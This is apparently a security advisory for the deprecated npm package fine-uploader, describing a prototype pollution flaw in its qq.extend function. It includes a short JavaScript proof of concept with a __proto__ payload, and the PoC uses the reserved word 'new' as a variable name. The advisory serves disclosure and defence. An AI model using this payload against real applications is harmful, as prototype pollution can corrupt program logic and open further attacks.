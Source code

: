 # Overview
fine-uploader is a npm package for upload.
Note: This project is no longer maintained and the the package should be considered deprecated.
Affected versions of this package are vulnerable to Prototype Pollution.
Given a value such as __proto__, this value is used by the  extend function without any prior validation. __proto__ will modify the properties of all existing properties and new properties resulting in pollution of an object's prototype.

# Proof of Concept
//https://docs.fineuploader.com/branch/master/api/qq.html#qq.extend
var payload = JSON.parse('{"__proto__": {"a": "polluted"}}');
var new = qq.extend({}, payload);
console.log({}.a);
